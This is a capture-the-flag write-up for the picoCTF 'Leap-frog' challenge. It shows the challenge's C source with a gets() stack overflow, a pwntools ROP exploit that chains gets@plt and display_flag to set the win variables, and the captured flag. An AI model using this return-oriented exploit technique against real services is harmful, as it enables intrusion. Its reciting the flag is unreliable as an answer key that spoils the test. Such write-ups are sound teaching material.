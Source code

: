 # Leap_frog (Binary)

![title](images/title.png)

Based on the title, clues and binary name it looks like we will be using Return Oriented Programming. My plan is to find the buffer needed to control EIP, then either find a win function or use system and /bin/sh to print the flag.

<details>
	<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>


#define FLAG_SIZE 64

bool win1 = false;
bool win2 = false;
bool win3 = false;

void leapA() {
  win1 = true;
}

void leap2(unsigned int arg_check) {
  if (win3 && arg_check == 0xDEADBEEF) {
    win2 = true;
  }
  else if (win3) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void leap3() {
  if (win1 && !win1) {
    win3 = true;
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void display_flag() {
  char flag[FLAG_SIZE];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  }
  else if (win1 || win3) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
</details>

---post ctf update----


Looks like we can use gets plt to change the win variables to true while calling the display flag


---------------------


<details>
  <summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
import os

argv = sys.argv

#lead elf and get addresses
e = ELF('./rop')
gets_plt = e.plt['gets']
display_flag = e.symbols['display_flag']
win1 = e.symbols['win1']

if len(argv) > 1:
  from getpass import getpass
  ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
  p = ssh.process('rop', cwd='/problems/leap-frog_2_b375af7c48bb686629be6dd928a46897')
else:
  p = process('./rop')

payload = ''
payload+= 'A'*28
payload+= p32(gets_plt)     #calls gets function so we can write the win variables
payload+= p32(display_flag)   #returns to display flag
payload+= p32(win1)       #allows us to write to win1 address
p.sendlineafter('>', payload)
p.sendline('\x01'*3)      #writes the value 1 to win1, win2, and win3
p.interactive()
```
</details>

<details>
  <summary>Flag</summary>

picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_322ee522}
</details>